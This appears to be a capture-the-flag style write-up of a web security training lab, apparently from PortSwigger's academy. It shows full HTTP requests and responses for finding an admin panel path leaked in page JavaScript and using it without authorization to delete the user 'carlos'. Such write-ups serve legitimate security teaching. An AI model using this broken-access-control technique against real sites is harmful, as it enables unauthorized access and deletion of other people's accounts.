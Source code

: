 ## Lab: Unprotected admin functionality with unpredictable URL

This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user `carlos`.

## Solution:
When entering the root of the site we find a script-tag in the response containing some javascript that creates an a-tag with a href pointing to ```/admin-4akd4x``` if the isAdmin variable is set to true. But we get the endpoint either way.

Request:
```http
GET / HTTP/1.1
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11051

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-4akd4x');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
**********SNIP**********
```

We try to send a request to this endpoint.
Request:
```http
GET /admin-4akd4x HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3536

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin-4akd4x/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin-4akd4x/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP**********
```

In the response snippet we find the URI:s for deleting users again.
Request:
```http
GET /admin-4akd4x/delete?username=carlos HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin-4akd4x
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

We get a 302 which redirects us back to the admin panel with the message  
![](../img/Deleted_User_Successfully.png)